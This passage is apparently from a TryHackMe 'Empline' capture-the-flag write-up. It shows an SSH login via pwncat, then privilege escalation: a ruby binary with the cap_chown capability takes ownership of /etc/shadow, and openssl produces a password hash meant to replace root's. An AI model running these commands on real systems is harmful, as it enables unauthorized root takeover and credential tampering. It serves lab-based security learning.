 
We go the password, now let’s login with SSH.

```
⛩\> pwncat ssh://george@empline.thm
[11:27:43] Welcome to pwncat 🐈!                                                                                                                __main__.py:143
Password: *******************
[11:28:01] empline.thm:22: registered new host w/ db                                                                                             manager.py:502
(local) pwncat$

(remote) george@empline:/home/george$ id
uid=1002(george) gid=1002(george) groups=1002(george)
```

# Privilege Escalation

```
Files with capabilities (limited to 50):
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
```

Linpeas detected ‘chown’ capability using ruby application. Let’s change the

```
(remote) george@empline:/home/george$ echo -n 'File.chown(1002, 1002, "/etc/shadow")' > chown.rb

(remote) george@empline:/home/george$ ls -la /etc/shadow
-rw-r----- 1 root shadow 1081 Jul 20 19:48 /etc/shadow

(remote) george@empline:/home/george$ ruby chown.rb

(remote) george@empline:/home/george$ ls -la /etc/shadow
-rw-r----- 1 george george 1081 Jul 20 19:48 /etc/shadow
```

As you can see, ‘shadow’ file owner has changed to ‘george’ user. Now we add new hash to root user (not recommended for pentest), rather create a new user and give root privileges. As I am on private instance of THM, it barely matters even if I change the root password.

```
(remote) george@empline:/home/george$ openssl passwd -6 -salt 'test'
Password:
$6$test$bzcdZcb/7XNcrHf09O9O89Vnd8x5hnOsG3cn8C5JyeBhbCyVhZIJS68.DP2LGUsx/6tpfbjmAcFgnUeUT6j120
```

Using openssl we can generate new password hash.

- \-6 : SHA512 Algorithm
- \-salt : Add salt to hash and ‘test’ is salt
- Do not pass the password directly from command line, as this command will be stored in history it will be visible.

Now edit the ‘shadow’ file and replace the existing hash with your new hash.
